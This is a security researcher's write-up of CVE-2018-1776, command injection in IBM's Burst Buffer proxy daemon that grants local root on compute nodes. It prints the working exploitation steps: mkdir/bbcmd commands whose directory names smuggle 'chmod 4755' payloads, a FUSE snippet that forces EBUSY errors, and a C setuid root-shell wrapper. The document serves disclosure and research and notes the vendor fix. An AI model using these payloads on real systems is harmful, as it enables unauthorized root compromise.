


# CVE-2018-1776: IBM Spectrum LSF Local Privilege Escalation

## Overview

Older versions of the Burst Buffer proxy daemon are susceptible to command injection under certain error conditions.  Burst Buffer is a type of buffer/cache that is available for the pre-staging (and post-staging) of data before and after a scientific job is placed on a compute node. Because simulations at scale are extremely fine-grained, scientific compute jobs will often wait for some time at the beginning of their code execution for data to stream into memory from fast scratch.  Burst Buffering is directed by system-level processes to pre-stage the next job's data onto compute node-local NVMe drives and reduce idle time spent on I/O at the beginning and end of compute jobs. Because this capability can be directed by system-level processes and the scheduler, it is of particular interest from an authentication and trust boundary perspective.

## Links
  - https://github.com/IBM/CAST
  - https://www-01.ibm.com/support/docview.wss?uid=ibm10733555

## Tools and Background Knowledge

  * Linux Command Line Tools
  * C / gcc
  * FUSE user space filesystem daemon
  * Command injection

## Writeup

The Burst Buffer proxy daemon runs on compute nodes and services burst buffer requests to stage data prior to and after a compute job has finished. Unfortunately, there are certain error conditions that result in the execution of un-escaped user input. When an EBUSY error is thrown, `bbproxy` debugs the current state of the system by running `lsof` on the file that was attempted to be accessed.  We can utilize this to inject arbitrary commands (that will run as the privileged root user) and gain total control of the system.

### Diagram
Users on a compute node have access to directly interact with the Burst Buffer proxy daemon using the `bbcmd` tool. The general flow of exploitation looks something like this:
```
                    ┌─────────────────┐   ┌─────────────────────────────────────────┐
                    │   Login Node    │   │              Compute Node               │
                    │                 │   │                                         │
┌─────────────┐     │                 │   │                                         │
│   User @    │   ┌─┴─────┐  ┌──────┐ │ ┌─┴─────┐  ┌──────┐         ┌─────────────┐ │
│ Institution ├───▶ sshd  ├──▶ bash ├─┼─▶ sshd  ├──▶ bash ├─────────▶   bbproxy   │ │
└─────────────┘   └─┬─────┘  └──────┘ │ └─┬─────┘  └──────┘         └─────────────┘ │
                    └─────────────────┘   └─────────────────────────────────────────┘
```


### Vulnerable Code Path


The vulnerable code was found within error handling logic. Most of the sub-process creation that `bbproxy` performs is quite well controlled, especially in regularly traversed code execution pathways. Error handling functions, however, often contain less tested/audited/scrutinized code because they are really an exception (no pun indended!) to normal behavior. Here is a function that wraps the vulnerable code; the intent is to provide some context to the user as to why a requested file operation is not able to be performed.





The `%s` within the `snprintf` function is replaced with the file path that was being operated on, for instance during a `rmdir` operation to remove a directory. This path is completely user controllable, but it must conform to a valid filesystem path name so certain types of characters are not easy to use (including '/' characters).  `runCommand` is a function elsewhere in burst buffer code that calls `popen` to spawn a new process, within a shell, passing in the `l_Cmd` string as the command to run. The error handling code that calls `lsofRunCmd` only fires off when these `EBUSY` errors are thrown by the filesystem in the following code snippet:




### Cheating a bit

Unfortunately, it was unclear how often `EBUSY` errors will actually be thrown in normal operations. We assumed, however, that an adversary would have a reliable method for causing this failure state, but needed to somehow force this behavior in order to demonstrate our proof of concept code and ask the vendor to fix the issue.

I had recently come across a blog post on [writing your own FUSE filesystem](https://www.stavros.io/posts/python-fuse-filesystem/) and the AHA! insight rang through. Of course, systems administrators would need to install FUSE and configure an option to allow root processes to traverse user-owned fuse filesystems, but for our purposes that is all we needed! We quickly whipped up a FUSE filesystem (which I refer to as EBUSYFS) to only throw EBUSY errors when the `rmdir` io operation is requested.

```
# Snippet from EBUSYFS FusePY filesystem
def rmdir(self, path):
        raise FuseOSError(errno.EBUSY)
        full_path = self._full_path(path)
        return os.rmdir(full_path)
```

### Acutal exploitation

Once we had a reliable way to get to the `lsof` command, we had to figure out what we really wanted to do with it from an exploitation perspective. Getting a shell and/or modifying installed operating system files were some of the adversarial behaviors we wanted to model, so we decided to do both. Here, we create a set of directories that upon removal using `bbcmd`, will change permissions of the system `chmod` `chown` binaries to execute in a setuid root context.  Thus, anyone on the system can change permissions of any file -- giving us an easy way to compile a shell executable and become root through setuid privilege escalation.

```
$ mkdir '/tmp/fusefs/dir1; chmod 4755 $(which chmod)'
$ mkdir '/tmp/fusefs/dir1; chmod 4755 $(which chown)'
```

The shell code looks something like this, makes sure it is running privileged with the right calls to `set.*id` and just ssh's to localhost for a full shell environment with euid 0:
```
#include <unistd.h>
#include <stdlib.h>

int main(int argc, char* argv[]) {
  seteuid(0);
  setegid(0);
  setgid(0);
  setuid(0);
  execl("/usr/bin/ssh", "/usr/bin/ssh", "localhost", (char *)NULL);
}
```

Ultimately, when removing the `'/tmp/fusefs/dir1; chmod 4755 $(which chmod)'` directory, we get the following "Device or resource busy" error (indicating success!). A quick ls shows us that `chmod` has indeed modified the permissions of its on-disk binary, letting us use it later for other nefarious purposes.

```
$ bbcmd rmdir --path '/tmp/fusefs/dir1;chmod 4755 $(which chmod)'
{"id":"1","rc":"-1","in":{"apicall":"BB_RemoveDirectory","parms":{"path":"\/tmp\/fusefs\/dir1;chmod 4755 $(which chmod)"},"misc":{"uid":"1000","gid":"1000"}},"h41n10:bb_api166260":{"breadcrumbs":{"LVUtils":{"lsofRunCmd":{"entry":{"count":"1","ts":"27 16:07:27.086219"},"exit":{"count":"1","ts":"27 16:07:27.097086"}}},"bbproxy":{"msgin_removedirectory":{"exit":{"count":"1","ts":"27 16:07:27.097482"}}}}},"env":{"jobid":"1","jobstepid":"1","contribid":"999999998"},"error":{"value":"16","message":"Device or resource busy","text":"bfs::remove_all failed","func":"msgin_removedirectory","line":"435","sourcefile":"\/home\/ppsbld\/workspace\/PUBLIC_CAST_V1.1.2_ppc64LE_RH7.5_ProdBuild\/bb\/src\/bbproxy.cc"}}
```

### Putting it all together

By creating specially crafted directories, (including semicolons!), we can force additional commands besides rmdir to be executed by the burst buffer proxy as a privileged user.  This results in a full system compromise.


### The fix

IBM's CAST 1.2.0 release fixes this particular vulnerability.

## Acknowledgements

This research used resources of the Oak Ridge Leadership Computing Facility at the Oak Ridge National Laboratory, which is supported by the Office of Science of the U.S. Department of Energy under Contract No. DE-AC05-00OR22725.
